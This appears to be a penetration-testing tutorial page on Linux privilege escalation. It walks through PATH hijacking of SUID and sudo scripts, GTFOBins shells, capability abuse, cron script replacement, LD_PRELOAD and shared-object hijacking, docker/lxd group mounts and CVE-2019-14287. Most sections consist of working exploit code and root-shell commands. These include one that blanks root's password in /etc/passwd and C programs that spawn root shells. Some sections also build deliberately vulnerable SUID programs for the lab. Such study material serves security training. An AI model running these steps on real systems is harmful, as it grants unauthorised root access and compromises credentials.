

# Linux Privilege Escalation

## Path Abuse

### Case - 1: Path abuse + SUID Misconfiguration

<details>

<summary><strong>Creating Vulnerable Environment</strong> </summary>

### Step - 1: Create the vulnerable program (simulating bad admin/developer practice)&#x20;


```c
// /root/sysaudit.c
#include <stdio.h>
#include <unistd.h>

int main() {
    printf("[sysaudit] Initializing compliance check module...\n");
    printf("[sysaudit] Step 1/3: Validating environment\n");
    printf("[sysaudit] Step 2/3: Collecting system baseline\n");
    printf("[sysaudit] Step 3/3: Finalizing audit report\n");

    // Internally shells out to an archival utility to package audit logs —
    // resolved via PATH, not hardcoded
    execlp("gzip", "gzip", "-k", "/var/log/auth.log", (char *)NULL);

    // Should never reach here unless execlp fails
    return 1;
}
```


### Step - 2: Compile it and set the SUID bit&#x20;


```bash
gcc -o /usr/local/bin/sysaudit /root/sysaudit.c
chown root:root /usr/local/bin/sysaudit
chmod 4755 /usr/local/bin/sysaudit
```


#### Verify&#x20;

<figure><figcaption></figcaption></figure>

</details>

#### Step - 1: Search for files that have an SUID bit set




```bash
find / -perm -u=s -type f 2>/dev/null
```


<figure><figcaption></figcaption></figure>



Using AI, we successfully identified a custom executable among the listed executables.

<figure><figcaption></figcaption></figure>



#### Step - 2: Analyze the binary&#x20;

**Agenda:**&#x20;

* Identify the system executable that the custom binary is using.
* Determine whether it uses the full path (e.g., `/usr/bin/df`) or just the executable name (e.g., `df`).



<figure><figcaption></figcaption></figure>

We cannot guess from the output what it is using. But let's verify it other ways.&#x20;



<figure><figcaption></figcaption></figure>

We got some clue that it is using `gzip`&#x20;



<figure><figcaption></figcaption></figure>

We can conclude that it is using `gzip` and doing something with log files.&#x20;



**Running pspy64**

<figure><figcaption></figcaption></figure>

**Confirming it**&#x20;

<figure><figcaption></figcaption></figure>



#### Step 3: Create a malicious executable in a writable directory&#x20;


```c
// /tmp/gzip.c
#include <stdio.h>
#include <unistd.h>

int main() {
    printf("[+] Malicious gzip executed — real uid=%d euid=%d\n", getuid(), geteuid());
    execl("/bin/bash", "bash", "-p", (char *)NULL);
    perror("execl failed");
    return 1;
}
```


<figure><figcaption></figcaption></figure>

#### Step 4: Modify PATH Variable


```bash
export PATH=/tmp:$PATH
echo $PATH
```


<figure><figcaption></figcaption></figure>

#### Step 5: Execute custom executable&#x20;

<figure><figcaption></figcaption></figure>

### Case - 2: Path Abuse + Sudo Misconfiguration&#x20;

**Scenario:** _After the previous vulnerability, the system administrator became more cautious and removed all the vulnerable SUID binaries. Instead, they consolidated all the required cleanup operations into a single shell script and granted users `sudo` access only to that script for cleaning the system. However, as attackers, we discovered that the `secure_path` option is disabled in this lab, allowing us to exploit the script through PATH abuse. Let's get started._

#### Check our Sudo privileges&#x20;

We're allowed to execute `update` and `clean` only through root permissions.&#x20;

<figure><figcaption></figcaption></figure>


_Since full path of `apt` is required and provided we can't use path abuse for privesc._&#x20;


#### Understanding the sys-cleanup.sh

We're given `sudo` access to several commands. Additionally, the shell script uses command names without specifying their full paths. The administrator trusts us—but it's time to break that trust.

<figure><figcaption></figcaption></figure>

#### Writing malicious executable&#x20;


```bash
#!/bin/bash
echo "[+] Malicious apt executed — real uid=$(id -u) euid=$(id -u)"
/bin/bash -p
```


<figure><figcaption></figcaption></figure>

#### Exporting path and escalating privileges&#x20;


```bash
export PATH=/tmp:$PATH
which find
```


<figure><figcaption></figcaption></figure>


_only disabled `secure-path` will allow us to escalate privileges using path abuse + Sudo misconfiguration._&#x20;


## Special Permissions&#x20;

The `Set User ID upon Execution` (`setuid`) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The `setuid` bit appears as an `s`

#### Find files with suid bit set&#x20;

<figure><figcaption></figcaption></figure>

#### Find executable in GTFOBins&#x20;

<figure><figcaption></figcaption></figure>

#### Escalate privileges&#x20;


```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


<figure><figcaption></figcaption></figure>

## Sudo Rights Abuse&#x20;

#### Check allowed root executables&#x20;

We're given permission to run `apt-get`, which means we can execute any `apt-get` command, such as `apt-get update`, `apt-get install`, and others. That's why it's important to grant only specific commands in the `sudoers` file, such as `apt-get update`, to ensure the user can execute only that particular command and nothing else.

<figure><figcaption></figcaption></figure>

#### Check GTFOBins&#x20;

<figure><figcaption></figcaption></figure>

#### Escalate privileges&#x20;


```bash
apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```


<figure><figcaption></figcaption></figure>


_Note that if only `apt-get update` is specified in the `sudoers` file, we cannot append any additional arguments or commands after `apt-get update`. This restriction makes it much more difficult to escalate privileges._


## Exploiting Capabilities&#x20;

lab environment setup explained [here](../../prerequisites/os-essentials/linux-fundamentals/#set-capabilities)

#### Enumerating Capabilities&#x20;


```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```


<figure><figcaption></figcaption></figure>

We can see that `python3.14` has the capability to `setuid`.&#x20;

#### Identifying capabilities&#x20;


```bash
getcap <executable>
```


<figure><figcaption></figcaption></figure>

#### Exploiting Capabilities&#x20;


```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


<figure><figcaption></figcaption></figure>

<details>

<summary><strong>Case 2</strong> </summary>

### Enumerate Capabilities&#x20;


```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```


<figure><figcaption></figcaption></figure>

**`CAP_DAC_OVERRIDE`**: Bypasses Linux file read, write, and execute permission checks (DAC).

### Checking all capabilities&#x20;


```bash
getcap /usr/bin/vim.basic
```


<figure><figcaption></figcaption></figure>

### Exploiting Capabilities&#x20;

Since we're allowed to read and write any file with vim. let's try to change passwd file.&#x20;


```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```


<figure><figcaption></figcaption></figure>


</details>

## Cron Job Abuse&#x20;

<details>

<summary><strong>Create vulnerable environment</strong></summary>


```bash
#!/bin/bash

echo "Cleaning temporary files..."
rm -rf /tmp/*.tmp 2>/dev/null
```



```bash
mkdir -p /opt/scripts
chmod +x /opt/scripts/cleanup.sh
chown root:user3 /opt/scripts/cleanup.sh
ls -l /opt/scripts/cleanup.sh
cat /opt/scripts/cleanup.sh
```


<figure><figcaption></figcaption></figure>

</details>

#### find cron jobs&#x20;


```bash
cat /etc/crontab
```


<figure><figcaption></figcaption></figure>

#### check permissions&#x20;


```bash
ls -l /opt/scripts/cleanup.sh
```


<figure><figcaption></figcaption></figure>

We can see that `user3` is group owner of the file and it has write permissions on it.&#x20;

#### Replace the script

Replace the script with:&#x20;


```bash
cat > /opt/scripts/cleanup.sh << EOF
#!/bin/bash

chmod u+s /bin/bash
EOF
```


<figure><figcaption></figcaption></figure>

#### Exploit&#x20;

Wait until `bin/bash` get the suid bit set. then boom.&#x20;

<figure><figcaption></figcaption></figure>


**Note**&#x20;

_Root cron jobs may be stored in the root user's personal crontab, which is not readable by low-privileged users. In such cases, tools like **pspy** can be used to identify scheduled tasks by observing processes executed by root._


## Kernel Exploits&#x20;

#### Identify kernel version&#x20;


```bash
uname -a
```


<figure><figcaption></figcaption></figure>

#### Search for exploit in google&#x20;

<figure><figcaption></figcaption></figure>

#### Exploit&#x20;


```bash
gcc exploit.c -o exploit
./exploit
```


<figure><figcaption></figcaption></figure>

## Shared Libraries&#x20;

### Understanding Shared Libraries&#x20;

Linux programs often don't contain all their code. They load code from **shared libraries (.so files)**. For example when we execute ls it actually uses this shared libraries behind the scene:&#x20;


```bash
/bin/ls
        |
        |----> libc.so.6
        |
        |----> libpthread.so
        |
        |----> libselinux.so
```


Instead of copying the same code into every program, Linux loads it when the program starts.

### Understanding LD\_PRELOAD

**`LD_PRELOAD`** is an environment variable in Linux that tells the dynamic linker to **load your shared library (`.so`) before any other libraries**. This allows your library's functions to **override** the original library functions.

#### Example

Suppose a program calls `puts()` from `libc`.

Normal execution:

```
Program → libc.so → puts()
```

With `LD_PRELOAD`:

```
Program → mylib.so → puts()  (overrides libc's puts)
```

Command:

```
LD_PRELOAD=./mylib.so ./program
```


_If we're allowed to run any program or service as root, and the `LD_PRELOAD` environment variable is preserved for our user (for example, because the user is a developer or tester), we may be able to abuse it for privilege escalation._


### Identify external libraries usage


```bash
ldd /bin/ls
```


<figure><figcaption></figcaption></figure>

### Escalation

#### Identify whether we've access to an executable and LD\_PRELOAD variable&#x20;


```bash
sudo -l
```


<figure><figcaption></figcaption></figure>

#### Create Exploit&#x20;


```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```



```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```


<figure><figcaption></figcaption></figure>

#### Escalate Privileges&#x20;


```bash
sudo LD_PRELOAD=/home/htb-student/root.so /usr/bin/openssl restart
```


<figure><figcaption></figcaption></figure>

## Shared Object Hijacking&#x20;

**Scenario**

A developer creates a SETUID root application that loads a custom library (`libshared.so`) from `/development`. The directory is mistakenly configured as world-writable (`777`). An attacker replaces the library with a malicious one implementing the expected function, causing the SETUID program to execute the attacker's code as **root**.

#### 1. Identify the custom executable made&#x20;


```bash
find / -type f -perm -u=s -exec ls -l {} \; 2> /dev/null
```


<figure><figcaption></figcaption></figure>

#### 2. Identify the shared libraries&#x20;


```bash
ldd /usr/local/bin/payroll
```


<figure><figcaption></figcaption></figure>


_Thus the binary depends on custom library located at `/development/libshared.so`._&#x20;


#### 3. Check the library search path&#x20;


```bash
readelf -d /usr/local/bin/payroll | grep PATH
```


<figure><figcaption></figcaption></figure>

Thus the binary is configured to load libraries from `/development`.&#x20;

#### 4. Check whether the directory is writable&#x20;


```bash
ls -ld /development
```


<figure><figcaption></figcaption></figure>

#### 5. Identify the function that is implemented by libshared.so&#x20;


_**Note:** To identify the function that `payroll` expects from `libshared.so`, simply remove or replace `libshared.so` with a valid shared library that does not contain the expected function, then run the binary. The resulting error message will reveal the missing function name._



```c
#include <stdio.h>

void hello()
{
    printf("Hello");
}
```


<figure><figcaption></figcaption></figure>

#### &#x20;6. Create malicious library (with the missing function name)


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery()
{
    printf("[+] Malicious library loaded!\n");

    setuid(0);
    setgid(0);

    system("/bin/sh -p");
}
```



```bash
gcc -fPIC -shared src.c -o /development/libshared.so
```


<figure><figcaption></figcaption></figure>

#### 7. Escalate Privileges&#x20;


```bash
/usr/local/bin/payroll
```


<figure><figcaption></figcaption></figure>

## Privileged Groups&#x20;

### ADM <a href="#adm" id="adm"></a>

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

```bash
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

### Disk <a href="#disk" id="disk"></a>

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

### Docker <a href="#docker" id="docker"></a>

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

#### Check the membership&#x20;


```bash
id
groups
```


<figure><figcaption></figcaption></figure>

#### Pull an image&#x20;


_This needs to be done if you don't have the zip file of any docker image._&#x20;



```bash
docker image ls
docker pull ubuntu:20.04
```


<figure><figcaption></figcaption></figure>

#### Mount root directory&#x20;


```bash
docker run --rm -it -v /:/mnt ubuntu:20.04 bash
```


<figure><figcaption></figcaption></figure>


_You can see that we can access the high privileged files contents and all the things that a root user can access._&#x20;


#### tar file&#x20;

We need tar file in case we didn't have internet access on the machine for pulling a docker.&#x20;



On the target:&#x20;

* `docker load -i ubuntu20.tar`
* `docker image ls`

### LXD Group Abuse

#### 1. Check if you're part of LXD group&#x20;


```bash
id
groups
```


<figure><figcaption></figcaption></figure>

#### 2. Copy the alpine image from the remote&#x20;


```bash
lxc image copy images:alpine/3.21 local: --alias alpine
lxc image list images: alpine
```


<figure><figcaption></figcaption></figure>


_If you don't have internet then you can use the image available below for importing using below command_&#x20;


```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```





#### 3. Create a privileged container&#x20;


```bash
lxc init alpine privesc -c security.privileged=true
```


<figure><figcaption></figcaption></figure>


_Note that here `privesc` is the name of our container._&#x20;


#### 4. Mount the host filesystem&#x20;


```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```


<figure><figcaption></figcaption></figure>

#### 5. Start the container and get shell


```bash
lxc start privesc
lxc exec privesc /bin/sh
```


<figure><figcaption></figcaption></figure>

> _From here you know what you've to do. Note that The `/` of the system will be loaded at `/mnt/root` of the container._&#x20;

## Critical Sudo Vulnerability (CVE-2019-14287)

A vulnerability affecting all `sudo` versions prior to **1.8.28** that allows a user to bypass the `!root` RunAs restriction and execute commands as **root**.

**Example:**&#x20;

```
sudo -u#-1 /bin/bash
```

On a vulnerable system with a rule such as `(ALL, !root)`, the `-1` UID is interpreted as `0` (root), resulting in a root shell.

## Using Automated tools

These tools are listed in descending order based on their frequency of use and the quality of results observed in our local lab.

<table><thead><tr><th width="91.60003662109375">No.</th><th width="331.60003662109375">Tool</th></tr></thead><tbody><tr><td><ol><li></li></ol></td><td><a href="https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS">LinPEAS</a></td></tr><tr><td><ol start="2"><li></li></ol></td><td><a href="https://github.com/rebootuser/linenum">LinEnum</a></td></tr><tr><td><ol start="3"><li></li></ol></td><td><a href="https://github.com/diego-treitos/linux-smart-enumeration">Linux Smart Enumeration</a></td></tr><tr><td><ol start="4"><li></li></ol></td><td>Linux Exploit Suggester (BuiltIn Tool)</td></tr></tbody></table>

